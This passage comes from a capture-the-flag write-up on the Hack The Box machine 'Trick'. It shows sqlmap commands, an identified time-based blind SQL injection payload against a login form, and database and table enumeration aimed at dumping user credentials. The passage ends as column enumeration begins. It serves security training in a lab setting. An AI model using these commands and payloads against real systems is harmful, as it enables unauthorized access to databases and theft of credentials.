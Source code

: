 ## SQLMap

Right click on the intercepted requested and save it to a file so we can use that with SQLmap:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# sqlmap -r trick-login.req
[*] starting @ 17:16:31 /2022-07-05/
<SNIP>
sqlmap identified the following injection point(s) with a total of 210 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=pencer' AND (SELECT 3955 FROM (SELECT(SLEEP(5)))MmMe) AND 'vVdo'='vVdo&password=pencer
---
[17:17:37] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[17:17:44] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'
[*] ending @ 17:17:44 /2022-07-05/
```

We have time based SQLi just like we did on the [StreamIO](https://pencer.io/ctf/ctf-htb-streamio/) box. Let's look through databases, tables, and then dump user credentials:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# sqlmap -r trick-login.req --dbs --batch
[*] starting @ 17:19:13 /2022-07-05/
[17:19:28] [INFO] retrieved: 
[17:19:33] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[17:20:34] [INFO] retrieved: payroll_db
available databases [2]:
[*] information_schema
[*] payroll_db
[*] ending @ 17:21:14 /2022-07-05/

┌──(root㉿kali)-[~/htb/trick]
└─# sqlmap -r trick-login.req --tables -D payroll_db --batch
[*] starting @ 17:21:34 /2022-07-05/
Database: payroll_db
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+
[*] ending @ 17:28:26 /2022-07-05/

┌──(root㉿kali)-[~/htb/trick]
└─# sqlmap -r trick-login.req --columns -D payroll_db -T users --batch
[*] starting @ 17:30:32 /2022-07-05/
Database: payroll_db
```